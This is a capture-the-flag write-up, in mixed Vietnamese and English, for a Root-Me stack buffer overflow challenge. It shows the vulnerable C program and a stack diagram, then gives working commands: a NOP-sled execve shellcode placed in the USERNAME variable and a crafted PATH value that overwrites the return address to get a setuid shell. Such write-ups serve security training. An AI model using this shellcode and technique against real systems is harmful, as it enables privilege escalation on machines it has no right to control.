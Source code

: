 
# Co-che-hoat-dong-cua-ma-doc - challenge 5 CTF Write up
```html
ELF x86 - Stack buffer overflow basic 4: ssh -p 2222 app-systeme-ch8@challenge02.root-me.org 
```

![image](https://user-images.githubusercontent.com/64201705/120130184-bac8d300-c1ef-11eb-9a06-2c075e009029.png)

## Write up

```Text
Sau khi SSH vào server thì ta dùng lệnh cat để in code trong file source code ra
app-systeme-ch8@challenge02:~$ cat ch8.c
```
Ta sẽ được như này:
```C
#include <stdio.h>
#include <stdlib.h>
#include <dirent.h>
#include <string.h>

struct EnvInfo
{
  char home[128];
  char username[128];
  char shell[128];
  char path[128];
};


struct EnvInfo GetEnv(void)
{
  struct EnvInfo env;
  char *ptr;

  if((ptr = getenv("HOME")) == NULL)
    {
      printf("[-] Can't find HOME.\n");
      exit(0);
    }
  strcpy(env.home, ptr);
  if((ptr = getenv("USERNAME")) == NULL)
    {
      printf("[-] Can't find USERNAME.\n");
      exit(0);
    }
  strcpy(env.username, ptr);
  if((ptr = getenv("SHELL")) == NULL)
    {
      printf("[-] Can't find SHELL.\n");
      exit(0);
    }
  strcpy(env.shell, ptr);
  if((ptr = getenv("PATH")) == NULL)
    {
      printf("[-] Can't find PATH.\n");
      exit(0);
    }
  strcpy(env.path, ptr);
  return env;
}

int main(void)
{
  struct EnvInfo env;

  printf("[+] Getting env...\n");
  env = GetEnv();

  printf("HOME     = %s\n", env.home);
  printf("USERNAME = %s\n", env.username);
  printf("SHELL    = %s\n", env.shell);
  printf("PATH     = %s\n", env.path);

  return 0;
}
```
Đối với challenge này, ta thấy chương trình sẽ load biến môi trường lên và sử dụng hàm `strcpy` để thực hiện copy env đó qua con trỏ ptr. Vì thế, ta sẽ nghĩ tới việc chương trình sẽ load đoạn shell code do ta chuẩn bị nằm trong biến môi trường và copy qua con trỏ. Sau đó sẽ ghi đè câu lệnh return 0 để gọi tới hàm có địa chỉ nằm trong shell code.
Đầu tiên ta thấy chương trình cần biến môi trường `USERNAME` cho nên ta sẽ export biến này trước: `export USERNAME=AAAA`
Sau khi gọi hàm Getenv() và gần tới câu lệnh return, stack sẽ có dạng:
```
            +----------------------------+
            |      HOME env variable     |     %ebp - 540
            +----------------------------+
            |    USERNAME env variable   |     %ebp - 412
            +----------------------------+
            |      SHELL env variable    |     %ebp - 284
            +----------------------------+
            |      PATH env variable     |     %ebp - 156
            +----------------------------+
            |           saved ebp        |
            +----------------------------+
            |        return address      |     %ebp + 4
            +----------------------------+
            |   rep movsl dest. address  |     %ebp + 8
            +----------------------------+  
```
This problem is very similar to the last one. We need to simply put our shellcode in one of the environment variables, and then overflow the last environment variable with the address of it to overwrite our return address, although there is one tricky issue which we will get to later. Firstly, let's write our shellcode. In this particular case, it's difficult to predict exactly where our environment variable will be placed, so we should write a bunch of nop operations in front of our code which make it easier to jump to our code, as if we jump anywhere within the nop section it'll continue forward until the actual code. The shellcode I used was from here as the previous 23-byte shellcode didn't work for some reason. We can do it easily from bash like so, which will fit perfectly into our 128-byte buffer: 
```bash
export USERNAME=`python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")'` 
```
![image](https://user-images.githubusercontent.com/64201705/120141317-7563d000-c206-11eb-868a-b2caafc60da1.png)
. Now that we have our shellcode in our environment, let's find out where it's located so that we can overwrite the return pointer to it. Open the program in GDB, set a breakpoint at line 44(just before the return), and get the location of username like so: x/x env.username. In my case it was 0xbffff4fc but I set my pointer to bffffa0b to give it a bit of headroom on either side so if the values are off slilghtly it should still work. However, there are two more things we need to find out first. In this case we will use PATH for our buffer overflow as it's at the bottom of the struct. We firstly need to find out the offset between path and our return pointer. With the program open in GDB and stopped at line 44 again, get the address of PATH: x/x env.path, and the address of our return pointer: x/x $esp+4. If you subtract them, you should find that they are 160 bytes apart from each other. Finally, the tricky thing I mentioned earlier. As the function returns a struct, and the struct is initially allocated on the stack, when it returns it copies the struct into a global variable. The pointer telling it where to copy the struct to is located directly after the return pointer. Hence, if we strcpy up to the return pointer, we will overwrite the pointer will the null byte that strcpy adds to the end. The solution is to check what it's original value is, and to rewrite it with that value so that the null byte doesn't get written over it. You can do that by running x/42xw env/path. This will allow us to confirm that the return address is indeed stored at env.path+164(it should be the second last address), and we can also get the value of the new struct location(the last address). In my case, it was 0xbffff750. Finally, we need to write the overflow exploit to the path environment variable. Firstly, get the length of the variable with echo ${#PATH}. Pad it to the nearest 4(I used colons for the padding but it doesn't matter much), and then write the address with the bytes reversed(we are using little-endian) enough times to get our total length to 164. Then add the new struct address onto the end(remember to reverse the bytes again), so that the total length is now 168. This can all be done in one command like so: export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/opt/tools/checksec/:::`python -c 'print("\x3c\xf5\xff\xbf"*13+"\x50\xf7\xff\xbf")'` . At this point, you should be able to run the program and get a shell as the setuid user. You can then get the password by running cat .passwd.



